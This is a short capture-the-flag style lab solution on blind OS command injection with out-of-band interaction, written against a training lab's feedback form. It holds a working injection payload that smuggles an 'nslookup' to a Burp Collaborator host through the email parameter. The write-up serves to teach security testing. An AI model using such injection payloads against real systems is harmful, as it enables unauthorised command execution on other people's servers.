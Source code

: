 # Lab 4: Blind OS command injection with out-of-band interaction

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a `DNS lookup` to `Burp Collaborator`.

#### NOTE: you must use Burp Collaborator's default public server.

## Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to:
```
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
```
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified email parameter.

## Video Solution
[Sommer's YT Video](https://youtu.be/ocqIy3zsZgo)

